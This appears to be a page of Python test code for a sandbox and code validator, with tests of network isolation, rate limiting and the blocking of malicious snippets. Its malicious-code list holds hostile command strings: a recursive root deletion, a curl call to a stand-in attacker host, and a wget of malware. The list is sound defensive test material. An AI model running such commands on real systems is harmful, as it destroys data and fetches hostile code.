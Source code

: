 2. `tests/test_sandbox.py`:
```python
def test_sandbox_isolation():
    """Test that sandbox properly isolates dangerous code"""
    orchestrator = SandboxOrchestrator(workspace_root=Path("."))
    
    config = SandboxConfig(network_mode="none")
    sandbox_id = orchestrator.create_sandbox(config)
    
    # Try to access network (should fail)
    request = CommandRequest(command="ping 8.8.8.8 -c 1")
    result = orchestrator.run_command(sandbox_id, request)
    
    assert result.exit_code != 0  # Should fail
    orchestrator.destroy_sandbox(sandbox_id)

def test_sandbox_resource_limits():
    """Test that resource limits are enforced"""
    # Test CPU limit
    # Test memory limit
    # Test timeout
    pass
```

3. `tests/test_chaos.py`:
```python
def test_malicious_code_blocked():
    """Test that malicious code is blocked"""
    validator = OutputValidator(strict_safety=True)
    
    malicious_codes = [
        "import os; os.system('rm -rf /')",
        "import subprocess; subprocess.Popen('curl attacker.com', shell=True)",
        "__import__('os').system('wget malware')"
    ]
    
    for code in malicious_codes:
        validated, errors = validator.validate_code_string(code)
        assert len(errors) > 0, f"Malicious code not blocked: {code}"

def test_rate_limiting():
    """Test that rate limiting works"""
    tools = SafeTools(workspace_root=Path("."))
    
    # Make many requests
    for i in range(150):
        request = ReadFileRequest(path="test.py")
        response = tools.read_file(request)
        
        if i < 100:
            assert response.success
        else:
            assert not response.success
            assert "rate limit" in response.error.lower()
```
